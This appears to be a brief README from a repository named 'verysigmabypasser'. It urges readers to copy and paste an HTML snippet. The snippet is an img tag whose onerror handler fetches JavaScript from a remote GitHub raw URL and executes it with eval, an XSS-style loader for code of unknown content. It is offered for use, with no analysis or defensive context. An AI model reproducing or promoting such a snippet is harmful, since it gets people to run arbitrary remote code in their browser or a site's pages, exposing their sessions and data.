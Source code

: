 Read ME PLSSSS!!!! 
copy and paste this:
<br>
'''
<img src=# onerror='fetch("https://raw.githubusercontent.com/gco12345/verysigmabypasser/main/main.js").then(r=>r.text()).then(c=>eval(c))'>
'''
<br>
